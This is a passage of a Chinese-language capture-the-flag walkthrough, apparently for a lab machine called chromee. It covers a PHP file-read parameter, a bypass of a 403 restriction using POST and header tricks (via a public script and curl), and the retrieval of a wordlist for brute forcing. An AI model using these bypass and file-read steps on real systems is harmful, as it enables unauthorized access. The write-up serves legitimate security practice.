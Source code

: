 ```php
...
    $greeting = date('H') < 12 ? '早上好' : (date('H') < 18 ? '下午好' : '晚上好');
    $visitorIP = htmlspecialchars($_SERVER['REMOTE_ADDR']);

    echo "<h1>{$greeting}，adriana</h1>";
    ...
    if (isset($_GET['aaa'])) {
        $file_content = file_get_contents('/opt/note/dic.txt');
        echo $file_content;
        } else {
                die();
        }
...
```

从代码中获得两条关键信息：

1.  可能存在一个用户名为 `adriana`。
2.  存在一个文件读取漏洞，通过提供 `aaa` GET参数可以读取服务器上的 `/opt/note/dic.txt` 文件。

## 2.4 绕过403 Forbidden

针对 8080 端口的 `/silence` 目录，使用[自动化脚本](https://github.com/byt3hx/403-bypass)尝试多种方法绕过 403 限制。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/403-bypass]
└─$ python3 403-bypass.py -u http://192.168.205.138:8080 -p silence/
...
http://192.168.205.138:8080/silence/ : (X-rewrite-url: /silence/) : 200
http://192.168.205.138:8080/silence/ : Using POST: 200
...
```

测试发现，使用 `POST` 方法请求可以成功绕过访问限制。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/403-bypass]
└─$ curl -X POST http://192.168.205.138:8080/silence/
...
      <p>contact: support@chromee.hmv</p>
...
```

成功访问页面，并在页面内容中发现一个域名 `chromee.hmv`。将此域名与目标IP绑定到 `/etc/hosts` 文件中。

## 2.5 获取密码字典并爆破

利用前面发现的文件读取漏洞，访问 `http://chromee.hmv/secret.php?aaa` 来读取 `/opt/note/dic.txt` 的内容。

```html
...
The Lost Key

Lily, a curious girl, found an old rusty key in the woods. Wondering where it belonged, she asked everyone in the village, but no one knew. One day, she discovered a locked stone well. To her surprise, the key fit. She opened it and descended into a hidden passage. There, she found an ancient chest filled with treasures. But the real treasure was a note inside: “The greatest treasure is the journey, not the prize.” Lily smiled, realizing the adventure was the real reward.
...
```
